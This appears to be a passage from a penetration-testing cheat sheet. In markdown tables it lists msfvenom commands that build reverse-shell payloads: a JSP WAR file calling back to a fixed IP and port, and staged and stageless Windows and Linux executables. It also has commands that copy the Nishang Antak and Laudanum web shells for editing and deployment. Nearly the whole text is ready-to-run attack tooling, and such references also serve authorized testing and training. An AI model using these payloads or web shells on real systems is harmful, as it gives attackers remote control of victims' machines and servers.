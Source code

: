 | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.1.5 LPORT=9001 -f war -o shell.war`           | `MSFvenom` command used to generate a `WAR java/jsp` compatible web reverse shell payload                                         |
| `nishang -h`                                                                                       | Collection of `PowerShell` scripts and payloads (including password protected `Antak-Webshell` built-in `ASP.Net`)                |
| `cp /usr/share/nishang/Antak-WebShell/antak.aspx /home/kali/Upload.aspx`                           | Move a copy of `Antak-Webshell` (built-in `ASP.Net`) for editing/usage                                                            |
| `cp /usr/share/webshells/laudanum/aspx/shell.aspx /home/tester/demo.aspx`                          | Move a copy of `Laudanum` web shell for editing/usage (built in `asp, aspx, jsp, php,` and more)                                  |
|                                                                                                    |                                                                                                                                   |



---



---
# MSFVenom

## Non-Meterpreter Binaries

Staged Payloads for Windows

|   |   |
|---|---|
|x86|`msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe`|
|x64|`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe`|

Stageless Payloads for Windows

|   |   |
|---|---|
|x86|`msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe`|
|x64|`msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe`|

Staged Payloads for Linux

|   |   |
|---|---|
|x86|`msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf`|
|x64|`msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf`|

Stageless Payloads for Linux

|   |   |
|---|---|
|x86|`msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf`|
|x64|`msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf`|

---
